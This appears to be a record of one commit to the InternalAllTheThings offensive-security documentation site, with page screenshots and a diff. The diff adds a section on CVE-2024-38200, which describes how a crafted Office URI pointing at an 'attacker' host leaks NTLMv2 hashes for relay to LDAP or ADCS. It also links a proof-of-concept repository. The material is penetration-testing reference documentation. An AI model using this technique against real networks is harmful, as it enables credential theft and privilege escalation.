

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/active-directory/internal-mitm-relay.md, in a window 1280 px wide and 900 px high, scrolled down 9076 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 9825 px from its top, so only the background shows below that.

Commit message:
Update internal-mitm-relay.md

```diff
--- a/docs/active-directory/internal-mitm-relay.md
+++ b/docs/active-directory/internal-mitm-relay.md
@@ -344,6 +344,12 @@ pyrdp-mitm.py <IP> -k private_key.pem -c certificate.pem # with custom key and c
 
 * S3th: https://github.com/SySS-Research/Seth, performs ARP spoofing prior to launching the RDP listener
 
+## CVE-2024-38200
+CVE-2024-38200 enables the capture of victim users' NTLMv2 hashes over SMB and HTTP by leveraging the Office URI Schema.<br>
+If we add a DNS A record and use this record name within the Office URI Schema (e.g., ms-word:ofe|u|http://attacker/leak.docx), Windows will consider the hostname as part of the Intranet Zone by default. In this way, NTLMv2 authentication occurs automatically when an Office application fetches a document from a remote source via crafted `ms-word:ofe|u|http://attacker/leak.docx` Office URI. The only requirement is for the victim user to visit the URL of an HTML file that redirects to the `ms-word:ofe|u|http://attacker/leak.docx`. A standard user can escalate privileges with LDAP relaying when this attack is performed against privileged user (e.g., enterprise admin, domain admin). <br>
+Capturing the NTLMv2 hash over HTTP method was not fixed (a warning box still does not apper). The NTLMv2 hash value can still be obtained over HTTP and relayed to LDAP or ADCS.
+
+https://github.com/passtheticket/CVE-2024-38200
 
 ## References
 
```
